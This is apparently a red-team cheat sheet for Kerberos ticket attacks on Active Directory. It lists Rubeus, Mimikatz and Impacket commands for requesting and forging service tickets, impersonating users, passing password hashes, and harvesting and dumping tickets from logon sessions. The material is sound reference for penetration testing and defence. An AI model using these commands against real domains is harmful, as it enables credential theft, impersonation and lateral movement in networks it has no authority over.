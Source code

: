 - find with Get-AdComputer -ldapfilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
    
  
## Request TGS
  
Rubeus
rubeus asktgs /service:[SPN]/[FQDN]
- To impersonate another user (same as request TGT):
    
- /enctype:
    
- /user:[username]
    
- /password:[password]
    
- if you don’t have password but have hash, replace /password: with /rc4: /aes128: /aes256: or /des:
    
  
Mimikatz
kerberos::ask /target:[SPN]/[FQDN]
- Optional /export to export
    
  
Impacket (Remote)
impacket-getST [domain]/[user]:[password] -spn [service]/[host]
- -dc-ip [DC]
    
- -hashes [hash]
    
- -impersonate [user]
    
Note: Automatically modifies impersonate TGS so it can be used with other impacket tools.
  
## Modify Existing TGS for Another Service
  
Rubeus
rubeus asktgs /altservice:[SPN] /ticket:[ticket]
- /ptt will automatically load onto current logon session
    
  
Impacket (Remote)
See note above. Realistically, this is only used in constrained delegation attacks so look there.
  
## Harvest Tickets
  
Rubeus
rubeus harvest /interval:30 ⇒ list current session TGT
- interval: time between harvests (seconds)
    
rubeus triage ⇒ list current session all tickets with logon id and expiration time
rubeus klist ⇒ list current session tickets with detailed info
rubeus dump ⇒ extract all tickets (basically /export for mimikatz)
- /user:[user] for a specific user
    
- /service:[service] for a specific service
    
- /luid:[logon id] for specific session, if we have access to all sessions (admin)
    